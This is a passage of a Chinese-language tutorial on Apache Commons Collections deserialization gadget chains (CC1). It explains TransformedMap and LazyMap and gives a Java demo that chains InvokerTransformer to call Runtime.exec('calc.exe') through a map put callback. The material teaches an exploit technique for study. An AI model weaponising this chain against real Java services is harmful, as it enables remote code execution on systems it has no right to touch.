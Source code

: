 ```java
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", var6);
        }
    }
}
```

## CommonsCollections1

cc1 算是整个 cc 链中最重要的一条, 把它搞明白基本上后面的链就很容易理解了

目前有两种形式, TransformedMap 和 LazyMap

TransformedMap 被提出的历史很久远, 但其实 LazyMap 利用范围更广, 后面的 cc 链很多也都是用的 LazyMap 而非 TransformedMap

另外由于从 jdk 8u71 开始, AnnotationInvocationHandler readObject 的逻辑被更改, 所以 cc1 在高版本 jdk 上无法利用

### TransformedMap

TransformedMap 的功能是在 put 时进行回调

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231505692.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231506594.png)

将 key value 作为参数传递给各自的 transformer transform 方法

keyTransformer 和 valueTransformer 可以在构造方法中传入, 也可以调用 decorate  静态方法获得一个带有这两个 transformer 的 TransformedMap

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231508780.png)

下面看一个简单的 demo

```java
package com.example.CommonsCollections1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections1Demo {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        }; // 构造一条 transformer 链来调用 Runtime.exec 执行命令
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain); // 获得被 TransformedMap 包装的 Map, 其中传入 transformerChain 作为 valueTransformer
        outerMap.put("test", "123"); // 调用 put 触发回调
    }
}
```

